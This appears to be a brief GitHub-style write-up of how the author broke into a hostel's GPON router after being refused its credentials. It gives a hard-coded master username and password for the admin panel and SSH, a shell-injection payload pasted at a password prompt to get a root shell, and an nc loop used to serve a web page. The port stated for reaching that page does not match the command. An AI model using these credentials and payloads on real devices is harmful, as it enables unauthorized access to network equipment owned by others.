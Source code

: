 After I was not give username and password of our hostel's router, I began to look for them in internet.

After a good amount of google search , I found a github page mentioning same router as ours and its vulnerabilities.

Here is what I found after some research:

> There is s master username and password through which I can login to admin panel.
username: AdminGPON
password: ALC#FGU

> This master password also allows to make ssh connection to router .ie:
```ssh AdminGPON@<router ip>```

> This would login me as user but wont give shell access. But it is vulnerable to shell injection. so,
user>shell would ask for password2 where I can simply paste:<code>'; /bin/sh; #</code>

And voila, you got shell

> since I have now access to shell, I tried doing things i would do in linux machine like messing around.

> I was able to serve a simple html page using nc command as:
```while true ; do  echo -e "HTTP/1.1 200 OK\n\n $(cat index.html)" | nc -l -p 1500  ; done```
  index.html being your html file.


> I was able to access html page throughout local network as <router-ip>:8000
